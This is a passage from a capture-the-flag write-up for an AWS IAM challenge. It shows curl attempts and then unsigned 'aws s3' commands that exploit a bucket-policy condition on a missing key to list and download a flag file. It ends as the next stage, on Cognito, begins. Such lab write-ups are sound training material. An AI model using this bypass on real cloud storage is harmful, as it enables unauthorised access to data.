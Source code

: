 Just had a dumb thought.
What if the resource-based policy is permissive and accessing it from an authenticated context is the issue?
Let's try the url real quick in case it's public.

```bash
$ curl https://thebigiamchallenge-admin-storage-abf1321.s3.us-east-1.amazonaws.com/files

<?xml version="1.0" encoding="UTF-8"?>
<Error><Code>AccessDenied</Code><Message>Access Denied</Message><RequestId>Z5H6B2XN57C3AF82</RequestId><HostId>at+yuX/zmNDw4FyQKA+D2YN
3zCJJPG+LOZ96h4sCe993ejH6Y29ZhRGJCh+j3dAPFeRfVz5al00=</HostId></Error>

$ curl https://thebigiamchallenge-admin-storage-abf1321.s3.us-east-1.amazonaws.com

<?xml version="1.0" encoding="UTF-8"?>
<Error><Code>AccessDenied</Code><Message>Access Denied</Message><RequestId>6AWDHFNNB13D5R5Y</RequestId><HostId>Y/YqzjA9DsIQYdc/iSka/VR
y8RLfKzv+Xssnqh1jkGX4xgAuVcdvS9nBGTO76TxQekZj7o71KQo=</HostId></Error>
```

Rats.
Worth a shot though.

> It also returns true if there are no keys in the request,
> or if the key values resolve to a null data set, such as an empty string.

So how do we make a request with either an empty string or without the tag?

```bash
$ aws s3 ls s3://thebigiamchallenge-admin-storage-abf1321/files/ --no-sign-request

2023-06-07 19:15:43         42 REDACTED.txt
2023-06-08 19:20:01      81889 logo-admin.png

$ aws s3 cp s3://thebigiamchallenge-admin-storage-abf1321/files/REDACTED.txt -
REDACTED
```

(- ________ - #)

### References

- [Multivalue policy conditions](https://docs.aws.amazon.com/IAM/latest/UserGuide/reference_policies_multi-value-conditions.html)
- [Session tags](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_session-tags.html)
- [S3API list-objects v2](https://docs.aws.amazon.com/cli/latest/reference/s3api/list-objects-v2.html)
- [S3API list-objects v1](https://docs.aws.amazon.com/cli/latest/reference/s3api/list-objects.html)
- [S3 ls](https://docs.aws.amazon.com/cli/latest/reference/s3/ls.html)

## Stage 4

The s3 permissions look like they're just there so we can retrieve the flag.
Let's focus on cognito.
I see we have a `*` grant for cognito-sync, let's focus on that.

